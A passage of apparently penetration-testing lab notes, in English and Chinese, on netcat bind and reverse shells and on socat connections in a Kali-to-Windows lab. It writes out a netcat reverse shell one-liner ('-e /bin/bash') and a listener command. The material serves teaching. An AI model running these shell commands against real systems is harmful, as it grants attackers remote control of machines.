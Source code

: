 ![image](https://hackmd.io/_uploads/HkXT76I8C.png)

##### (Alice: Kali)
```
nc -nv 10.11.0.22 4444
```
![image](https://hackmd.io/_uploads/r1FBE6UIA.png)
> 成功執行 Bob 的 cmd.exe (Kali 遠端執行 Windows 指令)

![image](https://hackmd.io/_uploads/SJ8K4aUU0.png)
> ipconfig 顯示 Bob 的IP

#### (2) Reverse Shell Scenario
Alice needs help from Bob.
![image](https://hackmd.io/_uploads/rk2BqA8LA.png)
> Alice 在內網\
> We can send control of Alice's command prompt to Bob.\
> (Reverse Shell)
##### (Bob: Windows) > Listen
IP: 10.11.0.22
```
nc -nvlp 4444 
```
![image](https://hackmd.io/_uploads/Hy1oj0LUA.png)
> Listen port 4444 for incoming shell

##### (Alice: Kali) > Send
Send reverse shell to Bob
```
nc -nv {Destination IP} {Destination port} -e /bin/bash
```
![image](https://hackmd.io/_uploads/HyUHn0UIR.png)
> -e /bin/bash: 在連接建立後，執行 /bin/bash，這是 Linux 的命令行解釋

##### Back to (Bob: Windows)
![image](https://hackmd.io/_uploads/rkfz6CL8C.png)
> 成功在 Windows 上遠端執行 Kali command

## Socat
Socat is a command-line utility that establishes bidirectional byte streams and transfers data between them.
```
socat - TCP4:10.11.0.22:110
```
> TCP4: 使用IPv4的TCP連接

![image](https://hackmd.io/_uploads/SyjMKDYIR.png)
> Interact with remote server
